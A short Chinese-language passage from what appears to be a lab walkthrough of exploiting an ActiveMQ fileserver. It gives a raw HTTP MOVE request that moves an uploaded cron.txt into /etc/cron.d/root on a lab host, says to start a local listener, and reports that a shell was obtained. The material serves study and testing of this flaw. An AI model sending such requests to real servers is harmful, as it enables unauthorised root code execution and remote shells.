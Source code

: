 

然后将其移动到/etc/cron.d/root

```
MOVE /fileserver/cron.txt HTTP/1.1
Destination:file:///etc/cron.d/root
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

![image-20250408222129240](./assets/image-20250408222129240.png)



本地开启监听，等待回连

![image-20250408223526862](./assets/image-20250408223526862.png)

成功拿到shell



